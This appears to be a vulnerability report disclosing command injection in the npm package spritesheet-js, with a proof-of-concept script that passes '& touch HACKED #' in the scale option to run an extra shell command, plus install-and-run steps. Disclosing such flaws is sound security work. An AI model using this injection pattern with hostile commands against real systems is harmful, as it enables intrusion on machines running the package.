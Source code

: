 # Description

Command Injection in spritesheet-js

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var a =require("spritesheet-js");
a('./', { scale:"& touch HACKED #",trim:true});
```

2. Execute the following commands in terminal:

```
npm i spritesheet-js # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output using ls command before and after the execution.
